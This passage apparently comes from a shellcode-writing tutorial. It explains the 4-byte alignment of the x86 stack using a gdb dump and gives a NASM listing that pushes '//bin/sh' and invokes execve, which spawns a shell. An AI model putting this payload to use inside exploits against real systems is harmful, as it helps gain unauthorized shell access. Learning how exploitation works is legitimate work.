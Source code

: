 ``` {.example}
   0x08048076 <+22>:    push   esi
   0x08048077 <+23>:    mov    ecx,esp
   0x08048079 <+25>:    mov    ebx,esi
   0x0804807b <+27>:    mov    al,0xb
   0x0804807d <+29>:    int    0x80
   0x0804807f <+31>:    xor    ebx,ebx
   0x08048081 <+33>:    xor    eax,eax
   0x08048083 <+35>:    inc    eax
   0x08048084 <+36>:    int    0x80
End of assembler dump.
(gdb) x/3x $esp
0xbffff718: 0x00000068  0x00000000  0x00000001
```

Ok. Now we have sense of what is going on. Looking closely, you can see
that when we pushed 0x68, we didn't push just the byte of 0x68, we push
the 4-byte value of 0x00000068. Why?

The stack is always 4-byte aligned. This is to ensure that when you push
and pop, you get consistent answers. The thing that you push onto the
stack is always popped off the stack. There is no way to push single
bytes. It doesn't allow you to get out of alignment, so you must ALWAYS
push 4-byte values. But, we can work with that.

### Attempt 2

Now that we are a bit more familiar with the stack, we can change our
shell code to push the entire byte sequence for "/bin/sh" in two steps.

Problem: "/bin/sh" is 7 bytes long, and we can only push 4 byte
sequences! This can be solved with leveraging the file system path
constructs. For example, "//bin/sh" is the same as "/bin//sh" which is
the same as "/bin/sh".

With that, we have the following shell code:

``` {.asm}
SECTION .text           ; Code section
             global _start  ; Make label available to linker
_start:
    xor eax,eax
    push eax        ;\0
    push 0x68732f6e     ;n/sh
    push 0x69622f2f     ;//bi 

    mov esi,esp         ;esp is argv

    xor edx,edx         ; edx = 0 (it's also param #3 - NULL)
    push edx        ; args[1] - NULL
    push esi        ; args[0] - "/bin/sh"


    mov ecx,esp         ; Param #2 - address of args array
    mov ebx,esi         ; Param #1 - "/bin/sh" is *esp
    mov al,0xb          ; System call number for execve
    int 0x80        ; Interrupt 80 hex - invoke system call

    xor ebx,ebx         ; Exit code, 0 = normal
    xor eax,eax         ; eax = 0
    inc eax         ; System call number for exit (1)
    int 0x80        ; Interrupt 80 hex - invoke system call
```
